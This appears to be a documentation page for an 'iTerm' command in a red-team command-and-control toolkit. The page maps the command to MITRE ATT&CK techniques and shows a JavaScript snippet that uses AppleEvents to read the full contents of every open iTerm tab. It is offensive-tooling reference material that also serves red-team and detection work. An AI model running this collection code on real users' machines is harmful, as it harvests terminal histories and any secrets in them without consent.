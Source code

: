 +++
title = "iTerm"
chapter = false
weight = 100
hidden = false
+++

## Summary

Read the contents of all open iTerm tabs if iTerms is open, otherwise just inform the operator that it's not currently running 
- Needs Admin: False  
- Version: 1  
- Author: @its_a_feature_  

### Arguments

## Usage

```
iTerm
```

## MITRE ATT&CK Mapping

- T1139  
- T1056  
## Detailed Summary
This uses AppleEvents to read the contents of iTerm tabs:
```JavaScript
if(term.running()){
    for(let i = 0; i < term.windows.length; i++){
        let window = {};
        for(let j = 0; j < term.windows[i].tabs.length; j++){
            let tab_info = {};
            tab_info['tty'] = term.windows[i].tabs[j].currentSession.tty();
            tab_info['name'] = term.windows[i].tabs[j].currentSession.name();
            tab_info['contents'] = term.windows[i].tabs[j].currentSession.contents();
            tab_info['profileName'] = term.windows[i].tabs[j].currentSession.profileName();
            window["Tab: " + j] = tab_info;
        }
        output["Window: " + i] = window;
    }
}
```
